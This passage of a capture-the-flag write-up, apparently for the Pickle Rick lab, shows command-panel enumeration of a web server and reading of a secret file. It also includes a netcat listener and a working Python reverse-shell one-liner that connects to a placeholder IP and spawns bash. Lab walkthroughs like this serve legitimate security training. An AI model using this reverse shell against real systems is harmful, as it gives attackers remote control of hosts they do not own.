 In the source code of `portal.php` we can found the following string `Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==` that looks like a base64 encoded string BUT NO.

**THIS STRING MEANS NOTHING!!!!!!!!!! 🤬** (a kind of troll)

---

## Exploitation
### First ingredient

By running `ls -la` on the command panel, we can find a valuable information.

```bash
# Output of the command

total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

- and a file called **`Sup3rS3cretPickl3Ingred.txt`** on the current directory. That means it accessible from navigator.
- (I also discovered we can use `cat` "to make it hard for future PICKLEEEE RICCCKKKK" 😑)

So we got the first ingredient by accessing **`http://http://target_url/Sup3rS3cretPickl3Ingred.txt`**.

### Second ingredient

In order to simplify our exploration, we can set a reverse shell (my favorite part don't ask me why).

On our machine execute the command:
```bash
nc -vlnp 1234
```

On the command panel execute this one:
```bash
# Don't forget to modify by adding your IP address
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("YOUR_IP",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

And voila! We got a shell on our terminal (we can execute cat by the way).
